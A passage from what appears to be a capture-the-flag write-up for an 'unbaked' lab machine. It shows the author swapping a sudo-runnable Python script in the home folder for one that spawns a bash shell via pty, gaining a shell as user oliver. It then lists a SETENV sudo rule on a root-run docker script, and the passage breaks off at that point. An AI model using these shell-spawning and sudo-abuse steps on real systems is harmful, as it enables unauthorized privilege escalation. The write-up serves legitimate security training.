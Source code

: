 
At this stage, it seems we have 2 ways of moving forward. Either we find an exploit on the python script itself, or we replace the content of the script, as it is in our home folder.

The script is owned by `root` and we only have read access to the file:

~~~
ramsey@unbaked:~$ ls -l /home/ramsey/vuln.py 
-rw-r--r-- 1 root ramsey 4369 Oct  3  2020 /home/ramsey/vuln.py
~~~

However, the file is in our home folder, and we can rename it. Let's take advantage of this to replace its content:

~~~
ramsey@unbaked:~$ cat > /home/ramsey/vuln2.py << EOF
> #!/usr/bin/python
> import pty
> pty.spawn('/bin/bash')
> EOF
ramsey@unbaked:~$ mv vuln.py vuln.bak
ramsey@unbaked:~$ cp vuln2.py vuln.py 
~~~

Now, running our modified copy will grant access as `oliver`:

~~~
ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py
oliver@unbaked:~$ id
uid=1002(oliver) gid=1002(oliver) groups=1002(oliver),1003(sysadmin)
~~~

## Privilege escalation

Our new user can run `dockerScript.py` as `root` without password, and can set the environment variable as well (`SETENV`).

~~~
oliver@unbaked:~$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
~~~

The script is importing the `docker` library:

~~~
oliver@unbaked:~$ ls -l /opt/dockerScript.py 
-rwxr-x--- 1 root sysadmin 290 Oct  3  2020 /opt/dockerScript.py
oliver@unbaked:~$ cat /opt/dockerScript.py 
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
~~~
